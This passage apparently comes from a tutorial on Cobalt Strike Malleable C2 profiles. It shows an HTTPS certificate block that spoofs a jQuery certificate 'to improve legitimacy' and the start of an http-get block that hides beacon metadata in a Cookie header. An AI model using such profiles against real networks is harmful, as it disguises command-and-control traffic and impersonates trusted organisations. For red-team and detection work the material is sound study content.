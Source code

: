 ### TLS Certificate

When using a HTTPS listener, CS gives the option for using signed HTTPS certificates for C2 communications. There are multiple options when setting this up ranging from none to signed by trusted authority all of which are described below:

    https-certificate {
    	# Option 1: Create a signed certificate with Java Keystore tool
    	set keystore "/pathtokeystore";
        set password "password";
        
        # Option 2: Self Signed with vendor specifics
        set C   "US";
        set CN  "jquery.com";
        set O   "jQuery";
        set OU  "Certificate Authority";
        set validity "365";
        
    }

[HTTPSC2DoneRight](https://github.com/killswitch-GUI/CobaltStrike-ToolKit/blob/master/HTTPsC2DoneRight.sh) will enable you to create a signed TLS certificate that can be used with CS to improve legitmacy. 

- Option 1 above shows a method for making a signed certificate and creating a Java Keystore file and a password for the keystore. This keystore must contain your certificate's private key, the root certificate, any intermediate certificates, and the domain certificate provided by your SSL certificate vendor. CS expects to find the Java Keystore file in the same folder as your Malleable C2 profile.
- Option 2: Is to create a self-signed certificate with whatever information you want, typically this is done to spoof an existing certificate to match the profile, the C, CN, I, OU and validity are all set from typical information supplied in a TLS certificate.

### Client and Server Interactions

The most customisable aspect of the profile is being able to specify which sections act in different ways, the main ones are GET and POST specifying how traffic is intercepted and how data is chunked. An example GET and POST section are shown below complete with both client and server interactions.

    http-get {
        set uri "/web /api/gallery /updates /about";
    
        client {
            header "Accept" "*/*";
            header "Connection" "Close";
            header "Host" "zsec.uk";
    
            metadata {
                base64;
                netbios;
                prepend "cf=";
                header "Cookie";
            }
        }
    